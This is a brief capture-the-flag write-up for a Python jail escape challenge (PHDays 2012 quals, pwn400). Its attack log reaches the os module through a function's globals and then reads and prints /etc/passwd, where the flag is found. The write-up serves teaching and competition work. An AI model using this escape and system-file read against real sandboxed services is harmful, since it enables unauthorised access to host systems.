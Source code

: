 ```yaml
---
title: PHDays2012 quals - pwn400 - python jail escape
author: zed
categories:
- writeup
---
```


## cat attack.log

~~~
#!python
>>> Reader.func_globals['sys']
<module 'sys' (built-in)>

>>> os=Reader.func_globals['sys'].modules['os']
os=Reader.func_globals['sys'].modules['os']
<module 'os' from '/usr/local/lib/python2.7/os.pyc'>

>>> f=os.open("/etc/passwd",444)
f=os.open("/etc/passwd",444)
6

>>> os.read(f,1024)
os.read(f,1024)
# $FreeBSD: src/etc/master.passwd,v 1.42.2.1.2.2 2012/11/17 08:36:10 svnexp Exp $
#
root:*:0:0:Charlie & flag 41f20268caa093e1b746e5ca750d3aa0:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/usr/games:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/no
~~~

too easy.


#### related links

 * [Zed's PHDays 2012 files & exploits](https://github.com/zed-0xff/ctf/tree/master/2012.phdays-quals)
 * [Hack.lu CTF #7 - python jail](http://timiz0r.blogspot.ru/2012/11/hacklu-ctf-7-python-jail.html)
 * [Hack.lu CTF - Python Jail Writeup](http://codezen.fr/2012/10/25/hack-lu-ctf-python-jail-writeup/)
